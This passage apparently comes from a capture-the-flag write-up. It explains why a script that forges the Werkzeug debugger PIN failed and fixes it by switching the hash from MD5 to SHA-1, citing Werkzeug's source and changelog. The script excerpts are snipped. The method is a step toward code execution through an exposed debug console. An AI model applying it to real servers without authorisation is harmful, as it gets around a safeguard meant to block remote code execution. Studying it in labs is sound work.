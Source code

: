 Unfortunately, the resulting PIN doesn’t work.

#### Hash Type

The script is creating a MD5 hash object, and adding pieces from above one by one to the hash. If I look more closely at the code from OpenSource, it’s doing the same thing, but using SHA1, not using MD5:

```

...[snip]...
	h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode("utf-8")
        h.update(bit)
    h.update(b"cookiesalt")

    cookie_name = f"__wzd{h.hexdigest()[:20]}"
...[snip]...

```

The [Changelog for Werkzeug version 2.0.0](https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0) lists this:

> - Use SHA-1 instead of MD5 for generating ETags and the debugger pin, and in some tests. MD5 is not available in some environments, such as FIPS 140. This may invalidate some caches since the ETag will be different. [#1897](https://github.com/pallets/werkzeug/issues/1897)

The change is made [here](https://github.com/pallets/werkzeug/commit/11ba286a1b907110a2d36f5c05740f239bc7deed#diff-83867b1c4c9b75c728654ed284dc98f7c8d4e8bd682fc31b977d122dd045178a).

I’ll update my script:

```

...[snip]...
#h = hashlib.md5()
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]
...[snip]...

```
